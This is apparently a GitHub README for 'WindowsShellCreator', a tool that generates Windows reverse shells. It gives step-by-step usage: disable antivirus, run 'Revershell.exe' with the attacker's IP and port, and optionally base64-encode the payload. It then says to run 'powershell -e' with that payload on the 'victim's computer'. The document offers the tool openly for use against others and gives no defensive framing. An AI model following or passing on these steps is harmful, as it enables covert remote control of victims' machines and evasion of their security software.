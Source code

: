 # WindowsShellCreator
### (Stable Release)

## How to Use ?
#### 1. Disable AntiVirus Software
#### 2. Download Zip File 
#### 3. Extract File
#### 4. Open CMD or Powershell as Administrator 
#### 5. type "Revershell.exe -H 'your device ip' -p 'Choose your port number' -b64 'y/n'"
### Note- You must specify whether you want base64 encoding via the ``` -b64 ``` flag.

### How to use base64 encode script ?
#### -> Copy the base64 code and go to victim's computer and type ``` powershell -e ``` and paste the copied base64 script [e.g. ``` powershell -e 'base64encode here' ```]
